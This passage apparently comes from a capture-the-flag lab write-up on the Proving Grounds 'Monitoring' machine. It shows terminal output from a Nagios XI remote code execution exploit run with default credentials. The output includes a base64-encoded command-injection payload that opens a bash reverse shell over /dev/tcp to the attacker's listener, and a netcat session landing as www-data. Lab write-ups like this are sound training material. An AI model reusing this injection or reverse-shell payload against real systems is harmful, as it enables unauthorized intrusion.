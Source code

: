 ```text
┌──(ryan㉿kali)-[~/PG/Play/Monitoring]
└─$ python nagiosxi_rce.py http://192.168.209.136 nagiosadmin admin 192.168.45.208 443 
[+] Extract login nsp token : b8d028470140b5d61599bd5e4cda456c6808f3f4eadcd59b11edd50b26b89a34
[+] Login ... Success!
[+] Request upload form ...
[+] Extract upload nsp token : 11cb84c0bc3a38a6842ce1d1d71b85a7a13345ce0527d7fe6714f24395dcf04c
[+] Base64 encoded payload : ;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjIwOC80NDMgMD4mMQ== | base64 -d | bash;#
[+] Sending payload ...
[+] Check your nc ...
```

```text
┌──(ryan㉿kali)-[~/PG/Play/Monitoring]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.208] from (UNKNOWN) [192.168.209.136] 48648
bash: cannot set terminal process group (966): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/usr/local/nagiosxi/html/admin$ whoami
whoami
www-data
www-data@ubuntu:/usr/local/nagiosxi/html/admin$ hostname
hostname
ubuntu
```
Out of curiosity I went back and checked the `/admin/monitoringplugins.php` page used in the exploit and sure enough we found our malicious plugin:

![pgmonitoring_plugin.png](../assets/monitoring_assets/pgmonitoring_plugin.png)

### Privilege Escalation

Not finding any local.txt flag, I decided to focus on escalating my privileges next. 
